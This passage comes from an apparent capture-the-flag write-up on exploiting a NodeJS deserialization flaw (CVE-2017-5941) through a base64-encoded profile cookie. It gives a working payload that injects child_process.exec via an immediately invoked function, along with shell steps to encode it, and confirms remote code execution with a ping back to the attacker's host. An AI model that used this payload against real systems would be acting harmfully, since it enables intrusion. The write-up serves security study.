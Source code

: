 {% highlight none linenos %}
kali@kali:/tmp/x$ echo "eyJ[...]Q==" | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
{% endhighlight %}

At this point, we can strongly suspect that the JSON object is being parsed or serialized and that the extracted parameter values are being put back into the page. In addition, NodeJS serializers typically serialize Javascript to JSON. As such, we could try to create a malicious JSON object which executes commands when deserialized. If there is a deserialization vulnerability, it shouldn't matter what variable names we use since the whole object is deserialized. As such, we should be able to use an arbitrary variable name rather than attempting to find a "vulnerable" existing parameter among the 4 known ones.

After trying a couple of NodeJS deserialization payloads, it can be determined that the web application is vulnerable to [CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941). As such, it is possible to use the JSON object below, which creates an anonymous function and calls it immediately using an [Immediately Invoked Function Expression (IIFE)](https://en.wikipedia.org/wiki/Immediately_invoked_function_expression). The anonymous function uses the `exec` function of the `child_process` package to execute a command which pings the attacking hosts. Note that we use the `-c` flag to ensure that the host stops pinging us after 10 ICMP echo requests.

{% highlight none linenos %}
{"evil":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 10 10.10.14.11'); }()"}
{% endhighlight %}

We can base64 encode this JSON object using the command `echo '[JSON]' | base64 -w0` where `[JSON]` is the JSON object with some modifications for the inner single quote `'` characters. In bash, single quotes preserve the literal value of each character within the quotes and thus the inner single quotes can not simply be escaped using the backslash `\` character. 

A solution to this problem is to substitute the single quotes for the characters `'"'"'`. By substituting a single quote character in a string for these characters, the original string is split into three strings which bash automatically concatenates. The second of these strings is defined using double quotes and only contains a single quote character, thus "escaping" the single quote. In essence, we can base64 encode our JSON object as shown below. Note that the `-w` flag is used to prevent the `base64` command from splitting the base64 encoded string into multiple lines.

{% highlight none linenos %}
kali@kali:~$ JSON='{"evil":"_$$ND_FUNC$$_function (){require('"'"'child_process'"'"').exec('"'"'ping -c 10 10.10.14.11'"'"'); }()"}'
kali@kali:~$ echo $JSON
{"evil":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 10 10.10.14.11'); }()"}
kali@kali:~$ echo $JSON | base64 -w0
eyJldmlsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdwaW5nIC1jIDEwIDEwLjEwLjE0LjExJyk7IH0oKSJ9Cg==
{% endhighlight %}

Next, we start Wireshark by executing `wireshark` in a terminal and send a request to the web application with the base64 encoded JSON object as the value of the `profile` cookie. If we have code execution on the target, we should be receiving ICMP packets resulting from the ping command. As can be sen below, we receive ICMP packets from the target host, meaning that we have acheived remote code execution!

![wireshark](/assets/{{ imgDir }}/wireshark.png)
